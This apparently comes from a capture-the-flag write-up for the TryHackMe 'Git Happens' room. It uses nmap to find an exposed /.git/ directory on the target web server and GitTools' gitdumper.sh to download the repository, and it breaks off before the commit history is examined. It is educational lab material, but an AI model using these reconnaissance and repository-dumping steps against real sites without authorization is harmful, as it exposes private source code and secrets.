



Difficult: Easy
--------------------------------
Note: Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!
--------------------------------
Link: https://tryhackme.com/r/room/githappens

RECONNAISSANCE:

+ Scan the machine with NMAP and GOBUSTER (if need):

```bash
nmap -sV -vv -A -p- -T4 <IP>
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.227.124:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
```
--> We got the hidden directory "/.git/"



+ We need to research about the vulnerable Git and /.git/ to find the way to exploit them.
+ After researching, we found the tools which we can use them for pwn'ing websites with .git repositories available.
+ Link: "https://github.com/internetwache/GitTools?tab=readme-ov-file"
+ In these tools, we will use tool "Dumper" - This tool can be used to download as much as possible from the found .git repository from webservers which do not have directory listing enabled.

```bash
./gitdumper.sh http://<IP>/.git/ clone
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating clone/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/d0/b3578a628889f38c0affb1b75457146a4678e5
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/b8/6ab47bacf3550a5450b0eb324e36ce46ba73f1
[+] Downloaded: objects/77/aab78e2624ec9400f9ed3f43a6f0c942eeb82d
....
```



+ We will use "git checkout -- ."

```bash
git checkout -- .
# Copy files from the index to the working tree.
```



--> Check through the files and we got nothing special. So we go deeper than to .git to file commit tree


